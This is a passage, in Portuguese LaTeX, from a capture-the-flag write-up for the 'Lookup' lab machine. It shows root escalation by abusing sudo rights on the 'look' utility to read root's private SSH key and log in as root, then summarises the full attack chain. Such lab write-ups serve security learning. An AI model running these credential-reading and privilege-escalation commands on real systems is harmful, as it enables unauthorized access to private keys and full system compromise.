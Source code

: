 \documentclass[12pt]{article}
\begin{document}
O usuário pode rodar \texttt{/usr/bin/look} como \texttt{root}. Consultando o \textit{GTFOBins}, vemos que o \texttt{look} pode ser usado para ler arquivos arbitrários; como a execução é feita como \texttt{root}, conseguimos ler qualquer arquivo do sistema:

\begin{lstlisting}[caption={Técnica do look segundo o GTFOBins}, label={lst:gtfolook}]
LFILE=file_to_read
sudo look '' "$LFILE"
\end{lstlisting}

O caminho mais rápido para o \texttt{root} é ler sua chave SSH privada:

\begin{lstlisting}[caption={Leitura da chave SSH do root via look}, label={lst:rootkey}]
think@lookup:~$ sudo /usr/bin/look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAA...
-----END OPENSSH PRIVATE KEY-----
\end{lstlisting}

Salvamos a chave em nossa máquina de ataque, ajustamos as permissões e acessamos como \texttt{root}, capturando a flag final:

\begin{lstlisting}[caption={Acesso final como root}, label={lst:rootssh}]
$ chmod 600 id_rsa
$ ssh -i id_rsa root@lookup.thm
root@lookup:~# id
uid=0(root) gid=0(root) groups=0(root)
root@lookup:~# cat /root/root.txt
THM{<FLAG_DE_ROOT>}
\end{lstlisting}

\section{Conclusão}

A exploração da Lookup encadeou quatro falhas que, no fundo, compartilham um mesmo tema: a confiança indevida em entradas ou configurações não validadas. O reconhecimento revelou apenas SSH e um Apache redirecionando para \texttt{lookup.thm}. Na tela de login, mensagens de erro distintas para usuário inválido e senha incorreta permitiram enumerar o usuário \texttt{jose} e, por força bruta, descobrir sua senha. O acesso autenticado expôs um \textit{elFinder} 2.1.47 vulnerável (CVE-2019-9194), cuja injeção de comando concedeu o \textit{foothold} como \texttt{www-data}. A movimentação lateral abusou do binário SUID \texttt{pwm}, que invocava \texttt{id} por caminho relativo, permitindo um \textit{PATH hijacking} para recuperar a senha de \texttt{think}. Por fim, uma permissão \texttt{sudo} mal configurada sobre o utilitário \texttt{look} possibilitou a leitura da chave SSH privada do \texttt{root}, concluindo o comprometimento total da máquina.
\end{document}
